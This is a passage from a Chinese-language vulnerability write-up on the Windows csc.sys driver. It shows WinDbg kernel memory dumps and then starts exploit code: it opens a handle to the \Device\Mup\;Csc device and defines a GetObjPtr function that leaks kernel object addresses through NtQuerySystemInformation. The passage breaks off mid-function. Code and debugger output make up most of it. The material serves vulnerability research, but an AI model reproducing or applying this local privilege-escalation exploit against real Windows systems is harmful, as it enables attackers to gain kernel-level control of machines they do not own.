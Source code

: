 在运算结束后，其值发生改变，则因此进入了我们的核心运算逻辑：

```
// 跳转到 CscUpdateAndCaptureConnectionStateEx 运行结束的状态
1: kd> gu
csc!CscDevFcbXXXControlFile+0xf1:
fffff804`7af69f21 f644246810      test    byte ptr [rsp+68h],10h
 
1: kd> dq ffff95020867d288
ffff9502`0867d288  00000000`00004010 00000000`00000000
ffff9502`0867d298  ffff076a`ad991417 ffff988f`74f2b980
ffff9502`0867d2a8  00000000`0000ec23 ffff988f`712a6030
ffff9502`0867d2b8  fffff804`7aebb329 ffff988f`7450fc80
ffff9502`0867d2c8  ffff988f`7450fc80 ffff988f`74f2b820
ffff9502`0867d2d8  ffff988f`74f2b820 ffff988f`7450fc80
ffff9502`0867d2e8  fffff804`7aebb1d3 ffff988f`74f2b980
ffff9502`0867d2f8  00000000`001401a3 00000000`00000000

```

漏洞利用
====

经过上面的分析，我们下面实现漏洞利用代码了。

### 打开驱动设备获取句柄

![](https://cdn.nlark.com/yuque/0/2024/png/12719746/1718462178639-74ef8ca1-2e3a-466b-a9b1-b303f4cab25b.png#averageHue=%23faf8f6&clientId=u1a779a47-87ba-4&from=paste&height=405&id=u7f928492&originHeight=506&originWidth=1070&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=89401&status=done&style=none&taskId=ua0009983-2532-4a25-bbed-56fe5776bd4&title=&width=856)

```
pRtlInitUnicodeString(&objectName, L"\\Device\\Mup\\;Csc\\.\\.");
InitializeObjectAttributes(&objectAttr, &objectName, 0, NULL, NULL);
status = pNtCreateFile(&handle, SYNCHRONIZE, &objectAttr, &iosb, NULL, FILE_ATTRIBUTE_NORMAL, 0, FILE_OPEN_IF, FILE_CREATE_TREE_CONNECTION, NULL, 0);

```

### 构造获取目标进程内核对象地址函数

```
int GetObjPtr(_Out_ PULONG64 ppObjAddr, _In_ ULONG ulPid, _In_ HANDLE handle)
 
{
    int Ret = -1;
    PSYSTEM_HANDLE_INFORMATION pHandleInfo = 0;
    ULONG ulBytes = 0;
    NTSTATUS Status = STATUS_SUCCESS;
 
    while ((Status = pNtQuerySystemInformation((SYSTEM_INFORMATION_CLASS)SystemHandleInformation, pHandleInfo, ulBytes, &ulBytes)) == 0xC0000004L)
    {
        if (pHandleInfo != NULL)
            pHandleInfo = (PSYSTEM_HANDLE_INFORMATION)HeapReAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, pHandleInfo, (size_t)2 * ulBytes);
        else
            pHandleInfo = (PSYSTEM_HANDLE_INFORMATION)HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, (size_t)2 * ulBytes);
    }
 
    if (Status != NULL)
    {
        Ret = Status;
        goto done;
    }
 
    // 遍历 pHandleInfo 中的所有句柄，寻找与给定的 PID 和句柄值匹配的条目
```